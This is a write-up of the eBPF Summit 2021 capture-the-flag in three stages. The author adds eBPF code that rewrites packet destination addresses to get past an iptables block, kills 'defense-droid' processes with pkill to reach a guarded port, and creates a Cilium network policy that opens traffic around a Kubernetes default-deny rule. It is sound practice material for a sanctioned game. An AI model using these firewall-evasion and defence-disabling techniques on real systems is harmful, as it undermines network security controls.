


# eBPF-ctf2021
https://ebpf.io/summit-2021/ctf/

---
# Stage 1 - CTF1

need to edit /bpf/bpf.c to make it rewrite your packet after iptables has run, and we need to target a different ip to spoof around the block. We copied the code from the completed ingress function, then changed the saddr > daddr etc, then we changed the dest IP to x.x.1.1. We can then `make && make run` you can add the new code after the todo section in original file. now we can run `echo | netcat -u 100.202.1.3 1138` for the answer.

### new code to add
```
    __u32 new_daddr = 0x0101ca64; /* 100.202.1.1 */
    sum = bpf_csum_diff(&ip->daddr, 4, &new_daddr, 4, 0);

    ret = bpf_skb_store_bytes(skb, l3_off + offsetof(struct iphdr, daddr), &new_daddr, 4, 0);
    if (ret < 0)
           return TC_ACT_SHOT;

    if (bpf_l3_csum_replace(skb, l3_off + offsetof(struct iphdr, check), 0, sum, 0) < 0)
           return TC_ACT_SHOT;
```

### original bpf.c
```javascript=
// SPDX-License-Identifier: (GPL-2.0 OR MIT)
/* Copyright (C) 2021 Isovalent */

#include <linux/bpf.h>
#include <linux/ip.h>
#include <linux/in.h>

#include "bpf_helpers.h"

#define TC_ACT_OK       0
#define TC_ACT_SHOT     2

SEC("egress")
int _egress(struct __sk_buff *skb) {
    struct iphdr *ip;
    int l3_len = sizeof(*ip);
    int l3_off = 0;
    void *data_end;
    void *data;
    __be32 sum;
    int ret = 0;

    bpf_skb_pull_data(skb, l3_off + l3_len);
    data_end = (void *)(long)skb->data_end;
    data = (void *)(long)skb->data;
    if (data + l3_off + l3_len > data_end)
            return TC_ACT_OK;

    ip = data + l3_off;

    if (ip->protocol != IPPROTO_UDP)
            return TC_ACT_OK;

    if (ip->daddr != 0x0301ca64) /* 100.202.1.3 */
            return TC_ACT_OK;

    if (ip->saddr != 0x0201ca64) /* 100.202.1.2 */
            return TC_ACT_OK;

    bpf_printk("Sending request. Now do something with it...\n");

    /* TODO solution */

    return TC_ACT_OK;
}

/* NOTE: ingress is complete and it does not need any changes */
SEC("ingress")
int _ingress(struct __sk_buff *skb) {
    struct iphdr *ip;
    int l3_len = sizeof(*ip);
    int l3_off = 0; /* wg0 is L3 device */
    void *data_end;
    void *data;
    __be32 sum;
    int ret = 0;

    bpf_skb_pull_data(skb, l3_off + l3_len);
    data_end = (void *)(long)skb->data_end;
    data = (void *)(long)skb->data;
    if (data + l3_off + l3_len > data_end)
            return TC_ACT_OK;

    ip = data + l3_off;

    if (ip->protocol != IPPROTO_UDP)
            return TC_ACT_OK;

    if (ip->daddr != 0x0201ca64) /* 100.202.1.2 */
            return TC_ACT_OK;

    if (ip->saddr != 0x0101ca64) /* 100.202.1.1 */
            return TC_ACT_OK;

    __u32 new_saddr = 0x0301ca64; /* 100.202.1.3 */
    sum = bpf_csum_diff(&ip->saddr, 4, &new_saddr, 4, 0);

    ret = bpf_skb_store_bytes(skb, l3_off + offsetof(struct iphdr, saddr), &new_saddr, 4, 0);
    if (ret < 0)
           return TC_ACT_SHOT;

    if (bpf_l3_csum_replace(skb, l3_off + offsetof(struct iphdr, check), 0, sum, 0) < 0)
           return TC_ACT_SHOT;

    return TC_ACT_OK;
}

char _license[] SEC("license") = "Dual MIT/GPL";
```

## result

```
root@f0c9813435bd:/bpf# make
clang -O2 -target bpf -idirafter /usr/local/include -idirafter /usr/lib/llvm-11/lib/clang/11.0.1/include -idirafter /usr/include/x86_64-linux-gnu -idirafter /usr/include -c bpf.c -o bpf.o
root@f0c9813435bd:/bpf# make run
tc qdisc replace dev wg0 clsact
tc filter replace dev wg0 ingress prio 1 handle 1 bpf da obj bpf.o sec ingress
tc filter replace dev wg0 egress prio 1 handle 1 bpf da obj bpf.o sec egress
root@f0c9813435bd:/bpf# echo | netcat -u 100.202.1.3 1138
Congrats! The passphrase for the blockade is: Shoni-65425046
```


---
# Stage 2 - CTF3

So if we try `curl localhost:1977` as expected connection is dropped.

Next I try `ps -ax` and see thousands of /usr/bin/defense-droid running, pid 1 is /usr/bin/container, pid 11 is /usr/bin/password-server

### cheat
```/usr/bin/password-server :8080 && curl localhost:8080```

## try1
```chmod -x /usr/bin/defence-droid
pkill -f '/usr/bin/defence-droid'
```
<br>container quits
<br>

## try2
```
pkill --signal 19 -f '/usr/bin/defence-droid'
```
<br>nothing happens and port is still blocked.
<br>

## Success
```
pkill --signal 9 -f '/usr/bin/defence-droid && curl localhost:1977'
```

```
root@bc9b845891e1:/# pkill --signal 9 -f '/usr/bin/defense-droid' && curl localhost:1977
2021/08/19 08:16:24 intrusion detected! self-destructing!
Welcome, Imperial Commander! The secret passphrase is: eCHO-33-32-37
root@bc9b845891e1:/#
```

---

# Stage 3 

Seems like stromtrooper pod has kubectl and some access to the cluster. this pod has no tools...
```
echo "apiVersion: cilium.io/v2" > opennetwork.yaml
echo "kind: CiliumNetworkPolicy" >> opennetwork.yaml
echo "metadata:" >> opennetwork.yaml
echo "  name: default-deny-death-star-traffic" >> opennetwork.yaml
echo "spec:" >> opennetwork.yaml
echo "  endpointSelector:" >> opennetwork.yaml
echo "    matchLabels:" >> opennetwork.yaml
echo "      k8s-app: death-star" >> opennetwork.yaml
```
 No permission to change the policy.
 
 Tried to exec into the deathstar `kubectl exec --stdin --tty death-star-6ff964c57c-vlm89 -- /bin/bash` still failed.
 
 We can install tools... but curl to deathstar is blocked.
 tried to port forward `kubectl port-forward pods/death-star-6ff964c57c-vlm89 8080:8080` which was denied.
 
 looking at death star spec I see
 ```
 spec:
  containers:
  - args:
    - '-r=''Flag Captured - [Death Star Management System] Remote access granted.
      Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d'
    image: quay.io/isovalent/ebpf-summit-2021-ctf-challenge-2-death-star:v1.0.0
``` 


seems I can create a brand new network policy so I create this yaml and applied
```
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: allow-xwing
spec:
  endpointSelector:
    matchLabels:
      k8s-app: death-star
  ingress:
    - fromEndpoints:
        - matchLabels:
            k8s-app: x-wing
      toPorts:
        - ports:
            - port: "80"
```

I can list network policies with `kubectl get CiliumNetworkPolicy` but cannot delete or edit the default deny policy.

after adding this policy the logs seem to show the data from the spec.

```
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: allow-xwing
spec:
  endpointSelector:
    matchLabels:
      k8s-app: death-star
  ingress:
    - fromEndpoints:
        - matchLabels:
            k8s-app: x-wing
```        

### Result

```
623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
Success! 'Flag Captured - [Death Star Management System] Remote access granted. Now initiating data transfer. Archive name: deathstar-vuln1977-644768706379427063794275623351676447686c4945526c5958526f49464e305958493d
```

# Tokens

curl -LO https://isogo.to/[token]

</img>
</img>
</img>


